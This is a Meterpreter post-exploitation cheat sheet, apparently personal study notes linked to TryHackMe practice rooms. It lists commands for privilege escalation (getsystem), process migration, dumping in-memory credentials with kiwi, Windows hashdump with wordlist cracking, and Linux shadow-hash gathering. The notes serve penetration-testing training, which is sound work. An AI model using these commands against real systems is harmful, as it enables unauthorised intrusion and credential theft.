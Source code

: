 # Meterpreter exploitation commands

[Go back](../index.md#meterpreter)

<div class="row row-cols-md-2"><div>

* ➡️ See if you are root and your privileges

```shell!
meterpreter> getuid
Windows: NT AUTHORITY\SYSTEM
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```shell!
meterpreter> sysinfo
Computer        : XXX-PC
OS              : Windows X (... Build xxx...).
Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```shell!
meterpreter> shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```
</div><div>

* ➡️ Ask for suggested exploits

```shell!
meterpreter> run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```shell!
meterpreter> resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.

```shell!
meterpreter> ps # list process
meterpreter> migrate process_pid # move to another process
meterpreter> migrate -N process_name # same
meterpreter> # most used ones
meterpreter> migrate -N spoolsv.exe # can restart so good
meterpreter> migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Windows commands

[![blue](../../../../../_badges/thm-p/blue.svg)](https://tryhackme.com/room/blue)
[![ice](../../../../../_badges/thm-p/ice.svg)](https://tryhackme.com/room/ice)
[![blaster](../../../../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)
[![steelmountain](../../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ See your privileges

```shell!
meterpreter> getprivs
```

* ➡️ Try automatic privilege escalation 😎 ([more information](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)).

```shell!
meterpreter> getsystem
```

* ➡️ Load PowerShell

```shell!
meterpreter> load powershell
meterpreter> powershell_shell
PS>
```
</div><div>

* ➡️ Dump in-memory passwords

```shell!
meterpreter> load kiwi
meterpreter> migrate some_process_nt_system_compatible
meterpreter> creds_all # retrieve all credentials
meterpreter> # you can also create a backdoor...
```

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
meterpreter> hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used')> use auxiliary/analyze/crack_windows
msf6 exploit('module_used')> set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used')> run
```
</div></div>

<hr class="sep-both">

## Linux commands

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Start a shell

```ps
meterpreter> shell
$
```
</div><div>

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
# basically, all that to do: "cat /etc/shadow"
meterpreter> bg
msf6 exploit('module_used')> use post/linux/gather/hashdump
msf6 exploit('module_used')> set SESSION 1
msf6 exploit('module_used')> run
```
</div></div>